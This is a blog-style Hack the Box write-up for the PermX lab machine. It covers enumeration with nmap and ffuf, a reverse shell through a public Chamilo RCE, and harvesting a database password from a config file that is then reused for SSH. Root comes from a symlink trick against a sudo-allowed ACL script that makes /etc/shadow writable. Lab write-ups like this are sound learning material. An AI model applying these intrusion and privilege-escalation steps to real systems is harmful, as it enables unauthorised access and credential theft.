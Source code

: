 ```yaml
---
draft: false
title: "Hack the Box #3 - PermX without Metasploit"
date: 2024-07-30
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
  - Linux
cover:
  image: hack_the_box_3_permx.png
  alt: hack_the_box_3_permx.png
---
```

I've been messing with retired boxes on Hack the box and thought i would finally try my hand on one of the active ones!

---
## Enumeration

So as per lets start with an nmap scan.
```bash
# Nmap 7.94SVN scan initiated Sat Jul 27 09:05:17 2024 as: nmap -sV -p- -o nmap.scan 10.10.11.23
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Jul 27 09:06:05 2024 -- 1 IP address (1 host up) scanned in 48.48 seconds

```

In doing so we find ports 22, 80 open. Both versions seem secure so lets have a look at the website.

> sudo vim /etc/hosts

Adding [http://permx.htb/](http://permx.htb/) Looks like some elearning site. Inspecting the page source shows there is an underlying page but none of the urls load anything of interest.

```bash
/.htaccess           [33m (Status: 403)[0m [Size: 274]
/.htpasswd           [33m (Status: 403)[0m [Size: 274]
/.hta                [33m (Status: 403)[0m [Size: 274]
/css                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/css/>][0m
/img                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/img/>][0m
/index.html          [32m (Status: 200)[0m [Size: 36182]
/js                  [36m (Status: 301)[0m [Size: 303][34m [--> <http://permx.htb/js/>][0m
/lib                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/lib/>][0m
/server-status       [33m (Status: 403)[0m [Size: 274]
```

With some further subdirectory enumeration with gobuster We have some denied and an open directory but nothing of serious interest. Lets see if we have any subdomains of interest???

Weirdly is wasn’t getting much success with with the generic **ffuf** method of:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.permx.htb -mc 200
```

This doesn't seem right. It isn't even detecting the www root that I am connected to… After a little bit of research I found another way to make the query.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u <http://10.10.11.23> -H "Host: FUZZ.permx.htb" -mc 200
```

What is the difference you might ask? The former is sending out a request to DNS servers for what other subdomains it could connect to. Where the latter is sending requests directly to the IP Address im trying to hit…

And after running the command against the VHOST we get

**lms.permx.htb**

WHY IS IT ALWAYS DNS!!!!!!!

Lets add this bad boy to our hosts file and lets see what we got… Looks like we have a login page with the administrator mentioned at the bottom.

![LoginPage](https://i.imgur.com/7BQRrzZ.png#center)

+1 to email admin@permx.htb love you Davis Miller

---
## Exploitation 

In digging through the source to determine what version of Chamilo we are dealing with I could only determine **Chamilo 1** thinking it wouldn't get me to far without a specific version but google is a bountiful place with a simple **Chamilo 1 exploit** search we find a PoC put together by m3m0o [m3m0o/chamilo-lms-unauthenticated-rce](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) Thanks mate love you.

Downloading this and reviewing the exploit it can either check for the vulnerability, drop a webshell or a reverse shell using the exploit. Well I'm feeling vrevshelly today :D

![ReverseShell](https://i.imgur.com/GM5Qp5D.png#center)

Looks like we are **www-data** but we can still read the etc/passwd looks to be a single human user of mtz that's where our user flag will be… Lets start enumerating this box and see how we can get it.

In poking around we get this find an interesting file...
```bash
└─$ find / -type f -name "*config*" 2>/dev/null 
...
/var/www/chamilo/app/config/configuration.php
...

└─$ cat "/var/www/chamilo/app/config/configuration.php" | grep "db_user\\|db_pass"
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Great we have been able to acquire the database username and password.

Trying to login to the Chamilo portal the user doesn't work. Good. Lets try it with the user **mtz**.

```bash
└─$ ssh mtz@10.10.11.23
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
...
mtz@permx:~$ cat user.txt
==============USER_FLAG_STRING==============
```

I’m in and we got the flag… Now to escalate to root!

---
## Privilege Escalation 

Lets start by enumerating what processes can be run as superuser.
```bash
mtz@permx:~$ find / -perm -u=s -type f 2>/dev/null
...
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

There are some interesting ones at the bottom of this lookup. Digging into polkit, we are running version 0.105-33 and with a cursery search on exploit_db we find this bad boy [exploit-db](https://www.exploit-db.com/exploits/50011)

After running this a couple times however we have no success. The script is unable to create a user. Lets see what this user can run...

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We can run **[acl.sh](http://acl.sh)** as a sudo user without a password. Looking at the script is assigns permissions to a given target file but does restrict the user to only be able to run it on their home directory. We can’t edit this file but we can abuse the security check by creating a symbolic link to root.
```bash
mtz@permx:~$ ln -s / root # Create temp symbolic link
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow # GIB SHADOW FILE PERMS
mtz@permx:~$ vim /etc/shadow 
```

Here we can pull the hashed root password and crack it… or we can just overwrite it with mtz password then we can `su root` input mtz password and BAM!!!

```bash
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz# cat /root/root.txt
==============ROOT_FLAG_STRING==============
```

We got the root flag baby! And this [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/613) from hack the box. My smooth brain feels satisfied. I'm going to go touch some grass now :D

